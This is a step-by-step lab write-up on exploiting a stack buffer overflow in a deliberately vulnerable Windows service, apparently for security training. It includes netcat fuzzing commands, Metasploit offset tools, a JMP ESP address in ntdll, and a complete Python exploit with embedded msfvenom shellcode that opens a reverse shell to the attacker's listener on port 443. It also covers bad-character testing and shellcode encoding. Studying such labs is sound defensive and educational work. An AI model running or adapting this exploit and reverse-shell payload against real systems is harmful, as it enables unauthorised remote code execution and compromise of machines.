



# Buffer \(Stack\) Overflow

This is a quick lab to capture the high level process of how to exploit a primitive buffer overlow vulnerability. This lab is based on a vulnerable program provided by [security tube](http://www.securitytube.net/video/1398).

## Overview

Exploiting buffer overflow vulnerability boils down to:

* Writing more data to the receiving \(vulnerable\) program's memory buffer, than it anticipated, but did nothing to prevent this from happening;
* When buffer is overflown, adjacent memory is overwritten in the vulnerable program is replaced with malicious content supplied by an attacker;
* If the malicious content gets written to an executable memory location and the attacker can force the vulnerable program to jump to the attacker supplied code, the vulnerable program starts executing that code, which usually results in a privilege escalation or a computer compromise, depending on what the vulnerable program is and whether it was exploited locally or over the network.

In this lab, we're going to exploit the vulnerable program and make it execute our shellcode by following the high level process below:

* Overflow the vulnerable program's stack with buffer larger than it expected. 
* Craft the buffer in such a way, that once in the vulnerable program's memory, it will have:
  * Written our shellcode
  * Overwritten the stack's return address to ensure the EIP points to our shellcode
* Make the vulnerable program jump to our shellcode
* Profit - receive a reverse shell from the vulnerable server

Visually, the above would look something like this:



For the sake of simplicy of this lab, the vulnerable program:

* does not filter out any characters in the shellcode
* does not have a size constraint for our shellcode
* does not implement/enforce any memory protections

On top of the above, our shellcode is written to a predictable memory address pointed to by the ESP register.


## Observing the Crash

As a first test, let's send a string `hello` to the vulnerable program `server-memcpy.exe` running on `192.168.99.3:10000`:

```csharp
"hello" | nc 192.168.99.3 10000
```



The application crashed and at this point its Execution Instruction Pointer \(EIP\) points at `778F54EE`:


Let's now send 200 A characters to the vulnerable program:

```csharp
python -c "print('A'*200)" | nc 192.168.99.3 10000
```

After the program crashes, we see that EIP is still pointing to 778F54EE, however ESP suggests that the buffer we sent \(loads of `A`/`0x41`\) to the vulnerable program, is overwriting stack's contents:


If we send 270 A characters to the vulnerable program, we observe that EIP is now pointing to 0A0D4141. Note that the last two bytes are AA \(0x41 0x41\) - this suggests that we may be able to take control and overwrite the EIP and point it to any arbitrary memory address within the process memory, which could contain our shellcode \(and it will soon\):


As a final test, let's send 300 A's + string "END!":

```csharp
python -c "print('A'*300 + 'END!')" | nc 192.168.99.3 10000
```

...and observe registers after the crash:


Note the following:

* ESP \(green\) points to 0060FB20, which contains 41414141 \(AAAA\)
* EIP \(red\) points to 41414141
* 0060FB3C \(blue\) contains 21444E45 \(our string `END!`\)

Based on the above:

* We have successfully overwritten the EIP
* We can hypothesize that ESP \(0060FB20\) is where we would need to write our shellcode and point the EIP to, in order for the vulnerable program to execute it. We will confirm this in a moment. Let's call this a hyphothesis 1, so we can reference it later.

## Finding EIP Offset

Based on the above, we determined that we should be able to overwrite the EIP when sending between 200-300 bytes to the vulnerable program. Let's find how many bytes exactly we need to send in, before we can overwrite the EIP with a memory address of our choice, that we will later fill with shellcode we want the vulnerable program to execute when our exploit executes.

Let's generate a pattern of 300 characters using a metasploit utility:

```csharp
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```


Send it to the vulnerable program:

```text
"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9" | nc 192.168.99.3 10000
```

...and observe the crash again:


Note that:

* EIP is now points to 6A413969, which is part of the string pattern we submitted to the vulnerable program
* 0060FB20 - is indeed the memory address that we should place our shellcode and point the EIP to. This confirms our hypothesis 1.

So, let's finally find the actual number of bytes we need to send to the vulnerable program, before we can overwrite the EIP pointer to point it to, as we've just learned, to 0060FB20. Let's use another metasploit utitily for the job and supply it with the value seen in the EIP register at the time of the crash - 6A413969:

```csharp
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6A413969
```

This tells us that we need to sent 268 A's before we can overwrite the EIP:


Let's test it by sending 268 A's + RETN string + string SHELLCODE\*10:

```csharp
python -c "print('A'*268 + 'RETN' + 'SHELLCODE'*10)"
```

...and observe the crash:


Note the following:

* EIP now contains value 4E544552 \(red\), which is RETN in hex
* Immediately after RETN, at 0060FB20, we see the string SHELLCODE \(green\) being replicated 10 times

## Finding JMP ESP

Now, that we know where our shellcode is going to be located and how to control the EIP register, we need to overwrite the EIP with a memory address that points to the start of our shellcode. Remember, we know that our shellcode is pointed to by the ESP. This means that we could overwrite the EIP with a memory address containing instructions JMP ESP to force the vulnerable program to jump to the ESP, where our shellcode is located, and start executing it.

To find a memory address containing JMP ESP instruction, we can simply use Ctrl+F "jmp esp" in xdbg and discover that `jmp esp` is located in 7798BD1B inside ntdll.dll:




Memory address for instruction set `jmp esp` on your system may be different as ntdll.dll is updated between different Windows versions.


Remember the memory address of jmp esp - 7798BD1B - we will need it soon.

## Exploit Skeleton

Let's now build a quick python exploit code skeleton:

```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with string RETN
buf += b"RETN"

# shellcode
buf += b"SHELLCODE"

# send payload
sock.send(buf)
sock.close()
```

...and execute it against the vulnerable server to confirm everything still works as expected ans we see the RETN value in the EIP register and the string SHELLCODE next to the RETN, which we do:


Let's generate a shellcode for a simple reverse tcp shell for python:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.99.2 LPORT=443 -f python
```


...add it to our python code and replace the "RETN" on line 11 with the memory address containing jmp esp instructions, which is 7798BD1B \(as usual, mind the endianness\) in my case:


```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with address containing jmp esp instructions (inside ntdll.dll in my case)
buf += b"\x1b\xbd\x98\x77"

# shellcode
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += b"\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
buf += b"\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x63\x02\x68"
buf += b"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
buf += b"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
buf += b"\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
buf += b"\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
buf += b"\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
buf += b"\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
buf += b"\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
buf += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
buf += b"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

# send payload
sock.send(buf)
sock.close()
```


## Executing Exploit

Let's now fire up a netcat listener to catch a reverse shell incoming from the vulnerable server:

```text
nc -lvp 443
```

...and fire our exploit at the server running vulnerable service:

```text
python exploit.py
```

Below shows how netcat received a reverse shell, concluding that the vulnerable program was successfully overflown and executed our shellcode:



## Finding Bad Characters

Bad characters in the context of buffer overflow exploitation refers to the characters that cannot be present in the shellcode as they would interfere with the vulnerable program and most likely make it crash.

Although in this lab we did not have to deal with bad characters, below provides a couple of notes on the general process of how we would deal with them.

### Generate Bad Characters String

Generate a list of all possible bad characters using bash:

```bash
for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

...which prints:

```text
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```


### Test for Bad Characters

Update the exploit to ensure it sends that string of bad characters as our payload:


...test the exploit against the target and inspect the crash:


Note the memory dump in blue - it represents our bad characters that we sent as a payload. Since we can see all the bytes ranging from 0x00 through to the 0xFF in the correct order with no bytes missing or mangled, this confirms that we did not have to deal with any bad characters with this vulnerable program.

If we, however, spotted that the character 0x0A was replaced with some random character, say, 0xe3, this would indicate that 0x0a is our first bad character:


Once a bad character is found: 

* In the exploit code, replace that bad character with a known good character - any character going before it, that did not get modified by the vulnerable program. In my case, that could be any byte from 0x01 to 0x09. I chose 0x09 as shown in green in the above screenshot;
* Fire the exploit against the target again;
* Inspect the memory dump again to see if there are any other bad characters like we just did before;
* Repeat the process until you identify no more bad characters.

### Shellcode Encoding

Once all the bad characters are identified, we need to ensure that our shellcode that we send to the vulnerable program does not contain them. When generating shellcode with `msfvenom`, we can give it a list of bad characters by specifying the `-b` flag and those characters will be encoded \(replaced by others\). In my case, I'd invoke `msfvenom` with `-b 0xa`:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.99.2 LPORT=443 -f python -b 0x0a
```

Below shows how `msfvenom` fails a couple of times to encode the `0x0a` byte, but succeeds eventually. Assuming `0x0a` is the only bad character, the shellcode is now bad character-free and ready to use:


## References





